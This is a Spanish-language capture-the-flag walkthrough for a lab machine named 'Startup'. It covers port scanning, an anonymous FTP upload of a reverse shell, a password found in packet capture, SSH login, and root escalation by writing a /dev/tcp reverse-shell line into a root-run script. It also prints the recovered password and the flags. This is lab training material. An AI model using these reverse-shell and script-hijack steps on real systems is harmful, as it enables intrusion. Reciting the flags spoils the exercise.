

# Startup

## Escaneo de puertos

Usamos la herramienta de `nmap` para mapear los puertos abiertos disponibles en la máquina víctima:

```bash
sudo nmap -sV -T4 -p- 10.10.32.165
```

Tenemos tres puertos abiertos.


## Acceso por FTP

Entramos mediante FTP de forma anónima:


Nos descargamos los ficheros disponibles:


La imagen no parece relevante de momento:


Aunque hay un posible usuario en el sistema: `Maya`.


## Inspeccionando el servidor web

Accedemos al sitio web:


Usamos `gobuster` para identificar posibles directorios ocultos:

```bash
gobuster dir -u http://10.10.32.165 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

Encontramos un directorio llamado `/files`:


Accedemos al mismo y vemos el mismo contenido que en FTP:


## Reverse Shell

Podemos implantar una reverse shell en este directorio abierto:


Abrimos el puerto en escucha:

```bash
nc -lvnp 1234
```


Subimos el archivo de la reverse shell vía FTP:


Volvemos a la web y en `/files` aparece el archivo:


Hacemos clic y se ejecuta, obteniendo acceso:


Obtenemos shell más estable:

```bash
bash -i
```


Inspeccionamos y encontramos `recipe.txt`:


El ingrediente es `love`.

## Análisis de tráfico

Vamos a la carpeta `incidents` y vemos un fichero de Wireshark:


Lo descargamos copiándolo a la carpeta accesible en la web:




Seleccionamos cualquier paquete TCP y seguimos el flujo:


Encontramos contraseña de `lennie`: `c4ntg3t3n0ughsp1c3`.


## Acceso por SSH

Usamos credenciales de `lennie` para SSH:


Leemos `user.txt`:


```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

## Escalada de privilegios

En `/scripts` hay archivos importantes. `planner.sh` es propiedad de root y ejecuta `/etc/print.sh`:


Subimos `pspy64` a través de FTP para vigilar procesos root:


Insertamos reverse shell en `/etc/print.sh`:

```bash
echo "sh -i >& /dev/tcp/10.2.41.173/5555 0>&1" > /etc/print.sh
```


Cuando se ejecute el script, obtendremos shell root:


Leemos `root.txt`:

```
THM{f963aaa6a430f210222158ae15c3d76d}
```
